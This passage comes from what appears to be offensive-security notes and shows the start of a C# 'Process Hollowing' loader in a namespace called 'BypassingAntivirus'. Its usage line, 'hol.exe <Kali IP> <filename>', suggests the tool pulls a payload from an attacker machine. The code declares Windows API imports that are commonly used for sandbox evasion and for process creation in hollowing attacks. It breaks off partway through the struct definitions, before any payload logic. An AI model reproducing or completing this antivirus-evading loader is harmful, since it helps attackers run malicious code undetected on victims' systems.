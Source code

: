 ```csharp
    }
}
```

### Process Hollowing

`hol.exe <Kali IP> <filename>`

```csharp
using System;
using System.Runtime.InteropServices;
using System.Net.Http;
using System.Text.RegularExpressions;

namespace BypassingAntivirus
{
    class Program
    {
        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr FlsAlloc(IntPtr callback);

        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
        static extern bool CreateProcess(string lpApplicationName, string lpCommandLine,
    IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles,
        uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory,
            [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);

        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Ansi)]
        struct STARTUPINFO
        {
            public Int32 cb;
            public IntPtr lpReserved;
            public IntPtr lpDesktop;
            public IntPtr lpTitle;
            public Int32 dwX;
            public Int32 dwY;
            public Int32 dwXSize;
            public Int32 dwYSize;
            public Int32 dwXCountChars;
            public Int32 dwYCountChars;
            public Int32 dwFillAttribute;
            public Int32 dwFlags;
            public Int16 wShowWindow;
            public Int16 cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_INFORMATION
        {
            public IntPtr hProcess;
```